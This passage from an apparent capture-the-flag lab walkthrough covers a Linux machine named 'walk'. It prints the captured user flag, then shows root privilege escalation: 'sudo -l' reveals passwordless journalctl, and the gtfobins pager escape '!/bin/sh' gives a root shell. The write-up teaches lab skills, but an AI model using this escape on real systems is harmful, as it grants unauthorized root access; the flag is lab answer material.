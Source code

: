 ```
3 updates are security updates.


Last login: Wed Jan 29 20:13:44 2020 from 192.168.1.107
falcon@walk:~$ ls
user.txt
falcon@walk:~$ cat user.txt
B8LEGIF049JT4RTVWUG4
```

`B8LEGIF049JT4RTVWUG4`

## Task 3 Escalating your privileges to root

In this, we are going to focus on getting root-level access on the machine. This step is also known as Privilege escalation; we are going to escalate our privilege from a normal user to a root user (with the highest level of system privileges).

First, we'll have to find a vector that would be exploited to give us root access. A vector can be anything like a binary with some special permission or a cronjob that is not configured properly etc.

I've written a blog post about Linux privilege escalation, you can read it [here](https://mzfr.github.io/linux-priv-esc) to know more about it.

1. What can falcon run as **root**?

```
falcon@walk:~$ sudo -l
Matching Defaults entries for falcon on walk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falcon may run the following commands on walk:
    (root) NOPASSWD: /bin/journalctl
```

`/bin/journalctl`

2. Search gtfobins via the [website](http://gtfobins.github.io/) or by using [gtfo tool](http://github.com/mzfr/gtfo), to see if you find any way to use that binary for privilege escalation.

https://gtfobins.github.io/gtfobins/journalctl/

```
falcon@walk:~$ sudo journalctl
-- Logs begin at Tue 2020-01-28 19:00:21 IST, end at Sat 2020-11-07 19:29:51 IST. --
Jan 28 19:00:21 walk kernel: Linux version 4.15.0-20-generic (buildd@lgw01-amd64-039) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 (Ubuntu 4.15.0-20.21-gen
Jan 28 19:00:21 walk kernel: Command line: BOOT_IMAGE=/boot/vmlinuz-4.15.0-20-generic root=UUID=979754d8-4db7-4b66-a804-28a498c1cc0f ro
Jan 28 19:00:21 walk kernel: KERNEL supported cpus:
Jan 28 19:00:21 walk kernel:   Intel GenuineIntel
Jan 28 19:00:21 walk kernel:   AMD AuthenticAMD
Jan 28 19:00:21 walk kernel:   Centaur CentaurHauls
Jan 28 19:00:21 walk kernel: x86/fpu: Supporting XSAVE feature 0x001: 'x87 floating point registers'
Jan 28 19:00:21 walk kernel: x86/fpu: Supporting XSAVE feature 0x002: 'SSE registers'
Jan 28 19:00:21 walk kernel: x86/fpu: Supporting XSAVE feature 0x004: 'AVX registers'
Jan 28 19:00:21 walk kernel: x86/fpu: xstate_offset[2]:  576, xstate_sizes[2]:  256
Jan 28 19:00:21 walk kernel: x86/fpu: Enabled xstate features 0x7, context size is 832 bytes, using 'standard' format.
Jan 28 19:00:21 walk kernel: e820: BIOS-provided physical RAM map:
Jan 28 19:00:21 walk kernel: BIOS-e820: [mem 0x0000000000000000-0x000000000009fbff] usable
!/bin/sh
# whoami
root
```